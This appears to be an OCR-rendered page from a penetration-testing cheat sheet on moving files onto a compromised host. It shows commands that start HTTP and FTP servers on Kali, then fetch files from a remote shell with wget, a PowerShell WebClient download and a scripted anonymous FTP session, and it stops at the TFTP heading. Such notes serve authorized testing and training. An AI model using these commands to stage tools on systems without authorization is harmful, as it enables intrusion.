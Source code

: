 


# File Transfers
HTTP

The most common file transfer method.

 # In Kali
` python -m SimpleHTTPServer 80
`
 # In reverse shell - Linux
` wget 10.10.10.10/file
`
 # In reverse shell - Windows
` powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.ex
 e','C:\Users\user\Desktop\file.exe')"`


# FTP

This process can be mundane, a quick tip would be to be to name the filename as ‘ file’ on your kali
machine so that you don’t have to re-write the script multiple names, you can then rename the file on
windows.



 # In Kali
` python -m pyftpdlib -p 21 -w
`
 # In   reverse shell
       echo   open 10.10.10.10 > ftp.txt
       echo   USER anonymous >> ftp.txt
       echo   ftp >> ftp.txt
       echo   bin >> ftp.txt
       echo   GET file >> ftp.txt
       echo   bye >> ftp.txt

 # Execute
 `ftp -v -n -s:ftp.txt`


# TFTP

